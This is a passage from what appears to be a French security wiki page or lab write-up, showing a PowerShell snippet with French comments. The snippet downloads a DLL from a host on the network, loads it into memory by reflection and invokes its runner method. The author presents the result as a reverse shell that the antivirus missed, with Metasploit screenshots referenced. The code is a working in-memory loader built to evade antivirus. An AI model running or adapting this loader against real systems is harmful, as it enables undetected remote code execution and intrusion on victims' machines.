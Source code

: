 ```powershell
#On charge la DLL depuis un emplacement web. Il va être stocké automatiquement dans un array de type byte
$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.1.113/Assembly')
#On charge l'assembly depuis la mémoire
$assem = [System.Reflection.Assembly]::Load($data)
#On définit le namespace + classe
$class = $assem.GetType("Assembly.Class1")
#On définit la méthode runner
$method = $class.GetMethod("runner")
#On invoke la methode runner avec les arguments si nécessaire
$method.Invoke(0, $null)
```
- Et hop ! On a un reverse shell. L'AV n'as rien vu venir. Je vous laisse admirer les screenshots.
> On va s'ouvrir une grenadine parce que on est des H4xxXX00rrrs !
{.is-success}


![metasploit.png](/Sécurité/metasploit.png)
![posh.png](/Sécurité/posh.png)